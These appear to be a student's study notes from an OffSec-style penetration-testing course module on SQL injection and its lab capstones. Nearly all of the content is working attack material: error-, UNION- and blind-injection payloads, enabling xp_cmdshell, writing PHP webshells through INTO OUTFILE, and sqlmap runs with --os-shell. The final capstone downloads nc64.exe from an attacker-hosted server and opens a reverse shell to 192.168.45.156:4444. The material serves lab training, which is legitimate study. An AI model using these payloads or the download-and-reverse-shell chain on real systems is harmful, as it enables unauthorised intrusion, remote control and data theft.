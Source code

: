 - https://portswigger.net/web-security/sql-injection/cheat-sheet
## 10.1.2. DB Types and Characteristics

```bash
mysql -u root -p'root' -h $IP -P 3306

select version();

select system_user();

show databases;

SELECT user, authentication_string, plugin FROM mysql.user WHERE user = 'offsec';
```

```bash
git clone https://github.com/fortra/impacket.git

impacket-mssqlclient Administrator:Lab123@$IP -windows-auth

SELECT @@version;

SELECT name FROM sys.databases;

SELECT * FROM offsec.information_schema.tables;

select * from offsec.dbo.users;
```

## 10.2.1. Identifying SQLi via Error-based Payloads

- https://www.php.net/manual/en/reserved.variables.php

```bash
offsec' OR 1=1 -- //




' or 1=1 in (select @@version) -- //

' OR 1=1 in (SELECT * FROM users) -- //

' or 1=1 in (SELECT password FROM users) -- //

' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

## 10.2.2. UNION-based Payloads

For **UNION** SQLi attacks to work, we first need to satisfy two conditions:

1. The injected **UNION** query has to include the same number of columns as the original query.
2. The data types need to be compatible between each column.

```bash
' ORDER BY 1-- //

%' UNION SELECT database(), user(), @@version, null, null -- //

' UNION SELECT null, null, database(), user(), @@version  -- //

' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //

' UNION SELECT null, username, password, description, null FROM users -- //
```

## 10.2.3. Blind SQL Injections

Although "boolean-based" might not seem like a blind SQLi variant, the output used to infer results comes from the web application, not the database itself.

```bash
http://$IP/blindsqli.php?user=offsec' AND 1=1 -- //

http://$IP/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

## 10.3.1. Manual Code Execution

```bash
impacket-mssqlclient Administrator:Lab123@$IP -windows-auth

EXECUTE sp_configure 'show advanced options', 1;

RECONFIGURE;

EXECUTE sp_configure 'xp_cmdshell', 1;

RECONFIGURE;

EXECUTE xp_cmdshell 'whoami';

' UNION SELECT "<?php sIst3m($G3T['commd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

## 10.3.2. Automating the Attack

Another sqlmap core feature is the _--os-shell_ parameter, which provides us with a full interactive shell.

```bash
sqlmap -u http://$IP/blindsqli.php?user=1 -p user

sqlmap -u http://$IP/blindsqli.php?user=1 -p user --dump

sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
```

## Capstone 1

```bash
wpscan --url http://alvida-eatery.org/ --token $TOKEN

https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell
```

## Capstone 2

```bash
sqlmap  --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0" -r request.txt --proxy http://127.0.0.1:8080 --dump

POST / HTTP/1.1
Host: forestsave.lab
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 120
Origin: http://forestsave.lab
Connection: close
Referer: http://forestsave.lab/
Upgrade-Insecure-Requests: 1

mail-list='+union+select+null,null,null,null,'<?php+sistem($_GEllT["cmkkd"]);+?>',null+into+outfile+'/var/www/html/rce.php'#
```
- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Capstone 3

```bash
POST /class.php HTTP/1.1
Host: $IP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Origin: http://$IP
Connection: close
Referer: http://192.168.205.49/class.php
Upgrade-Insecure-Requests: 1

weight=22&height=2&age=2&gender=Male&email=mda%40mam
```
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md
- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Capstone 4

```bash
POST /login.aspx HTTP/1.1
Host: 192.168.161.50
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 3155
Origin: http://192.168.161.50
Connection: close
Referer: http://192.168.161.50/login.aspx
Upgrade-Insecure-Requests: 1

__VIEWSTATE=%2FwEPDwUKMjA3MTgxMTM4NwlkOjJmYzQyMjNkLTAzYWItNDgxOS04ZTA1LTM2NDk1NDgxNzUzMg0KRXJyb3IgTnVtYmVyOjEwMixTdGF0ZToxLENsYXNzOjE1ZGRkVFC%2F6v5snGlFYymiWHPR4AzHJRVKU0rG1FrEJvRKG8s%3D&__VIEWSTATEGENERATOR=C2EE9ABB&__EVENTVALIDATION=%2FwEdAASKBjaiVRLm6mvIyfm2W8X2G8sL8VA5%2Fm7gZ949JdB2tEE%2BRwHRw9AX2%2FIZO4gVaaKVeG6rrLts0M7XT7lmdcb6djziaeJFhooRbGCXcWvn41xBW2lHjTr1%2BgY3gKkEEwo%3D&ctl00%24ContentPlaceHolder1%24UsernameTextBox=QUAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&ctl00%24ContentPlaceHolder1%24PasswordTextBox=&ctl00%24ContentPlaceHolder1%24LoginButton=Login

sqlmap  --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0" -r request4.txt --proxy http://127.0.0.1:8080 --os-shell

python3 -m http.server 9999

curl -o C:\windows\temp\nc64.exe http://192.168.45.156:9999/nc64.exe

C:\windows\temp\nc64.exe 192.168.45.156 4444 -e cmd.exe

dir /s /b flag.txt 2>nul | findstr /i /r ".*\\flag\.txt"
```